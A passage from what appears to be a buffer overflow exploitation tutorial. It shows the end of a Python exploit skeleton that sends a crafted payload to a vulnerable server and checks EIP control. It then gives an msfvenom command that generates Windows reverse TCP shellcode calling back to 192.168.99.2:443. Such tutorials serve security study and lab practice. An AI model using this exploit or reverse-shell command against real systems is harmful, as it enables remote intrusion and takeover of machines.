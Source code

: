 ```python
# send payload
sock.send(buf)
sock.close()
```

...and execute it against the vulnerable server to confirm everything still works as expected and that we see:

* the `RETN` value in the EIP register 
* the string `SHELLCODE` next to the `RETN`

![Python exploit skeleton confirmed that everything works as expected](../../../.gitbook/assets/image%20%28828%29.png)

### Generating Shellcode

Let's generate a shellcode for a simple reverse tcp shell \(it will connect back to `192.168.99.2:443`\) for python:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python
```
